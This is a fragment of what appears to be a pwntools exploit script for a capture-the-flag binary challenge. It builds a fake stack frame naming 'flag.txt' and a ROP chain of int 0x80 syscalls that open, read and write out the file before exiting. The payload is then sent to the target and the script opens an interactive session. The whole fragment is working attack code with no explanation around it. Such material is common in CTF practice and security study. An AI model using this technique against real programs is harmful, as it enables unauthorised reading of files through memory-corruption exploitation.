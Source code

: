 ```python
        rop += p32(0xdeadbeef)
        return rop

    frame = b"flag.txt".ljust(0x20, b'\x00')
    frame += p32(fake_step_addr + 0x120) # esp
    frame = frame.ljust(0x3c, b'\x00')
    frame += p32(ret) # eip
    payload += frame
    payload = payload.ljust(0x120, b'\x00')

    rop = int80(5, flag_addr, 0) # open
    rop += int80(3, 4, heap_base+0x3000, 0x80) # read
    rop += int80(4, 1, heap_base+0x3000, 0x80) # write
    rop += int80(1, 0) # exit(0)
    payload += rop
    sl(payload)

    p.interactive()
```

